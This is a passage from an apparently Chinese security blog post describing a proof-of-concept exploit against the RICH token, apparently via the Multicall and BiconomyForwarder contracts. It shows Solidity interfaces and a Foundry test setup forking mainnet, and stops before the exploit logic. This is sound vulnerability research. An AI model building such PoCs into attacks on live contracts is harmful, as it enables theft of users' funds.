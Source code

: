 ![image-20240216151730935](https://raw.githubusercontent.com/Ns1ookup/ns1ookup.github.io/master/_posts/universal/8.png)



选择对 RICH token 的漏洞利用，构造poc进行测试。测试模版使用  [defihacklabs](https://github.com/SunWeb3Sec/DeFiHackLabs) 项目，代码如下

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;
import "forge-std/Test.sol";
import "./interface.sol";

// Multicall 接口定义
interface IMulticall {
    function multicall(bytes[] calldata data) external returns (bytes[] memory results);
}

// BiconomyForwarder 接口定义
interface IBiconomyForwarder {
    struct ERC20ForwardRequest {
        address from;
        address to;
        address token;
        uint256 txGas;
        uint256 tokenGasPrice;
        uint256 batchId;
        uint256 batchNonce;
        uint256 deadline;
        bytes data;
    }

    function getNonce(address from, uint256 batchId) external view returns (uint256);
    function verifyPersonalSign(ERC20ForwardRequest calldata req, bytes calldata sig) external view;
    function executePersonalSign(ERC20ForwardRequest calldata req, bytes calldata sig) external returns (bool success, bytes memory ret);
}


contract ContractTest is Test {

    function setUp() public {
        vm.createSelectFork("mainnet", 18730462);
    }

```